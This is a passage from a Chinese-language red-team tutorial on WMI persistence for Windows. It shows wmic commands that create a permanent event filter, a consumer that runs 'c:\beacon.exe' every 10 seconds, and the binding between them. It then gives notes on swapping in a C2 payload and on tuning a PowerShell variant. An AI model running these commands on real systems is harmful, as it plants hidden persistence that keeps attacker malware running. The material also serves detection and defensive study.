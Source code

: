 删除事件过滤器

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f01e1264a0f4b5ce.png)

删除事件消费者

[![](https://p5.ssl.qhimg.com/t014234aa9b4f5339c7.png)](https://p5.ssl.qhimg.com/t014234aa9b4f5339c7.png)

删除事件绑定

[![](https://p0.ssl.qhimg.com/t0178b155063a456106.png)](https://p0.ssl.qhimg.com/t0178b155063a456106.png)

### <a class="reference-link" name="WMI%E6%B0%B8%E4%B9%85%E4%BA%8B%E4%BB%B6"></a>WMI永久事件

> ***注意**：没有指定时间轮询则需要机器重启才可以进行WMI轮询，需要注意的一点是，WMI可以任意指定触发条件，例如用户退出，某个程序创建，结束等等*。

**<a class="reference-link" name="wmic%E6%B7%BB%E5%8A%A0%E6%B0%B8%E4%B9%85%E4%BA%8B%E4%BB%B6"></a>wmic添加永久事件**

```
#注册一个 WMI 事件过滤器
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BugSecFilter", EventNamespace = "root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __TimerEvent WITHIN 10 WHERE TimerID = 'BugSecFilter'"

#注册一个 WMI 事件消费者
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BugSecConsumer", CommandLineTemplate="cmd.exe /c  c:\beacon.exe"

#将事件消费者绑定到事件过滤器
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter='\\.\root\subscription:__EventFilter.Name="BugSecFilter"', Consumer='\\.\root\subscription:CommandLineEventConsumer.Name="BugSecConsumer"'
```

**<a class="reference-link" name="Powershell%E6%B7%BB%E5%8A%A0%E6%B0%B8%E4%B9%85%E4%BA%8B%E4%BB%B6"></a>Powershell添加永久事件**

> ***注意**：可以考虑添加Powershell的时间间隔器，需要上线至C2则将Payload替换成C2的exe或者dll或者ps1即可。*
***注意**：需要修改一下参数*

```
IntervalBetweenEvents ###修改间隔时间，以毫秒为单位。

$EventFilterArgs 中的 Name ###修改筛选器名称。

Query ###修改其中WQL语句，以下脚本中可不用修改，但TimerID需和$TimerArgs中的参数匹配。

$FinalPayload ###修改Payload，可以指定执行Powershell，或者cmd或者其他命令。

$CommandLineConsumerArgs 中的 Name ###修改消费者名称。
```
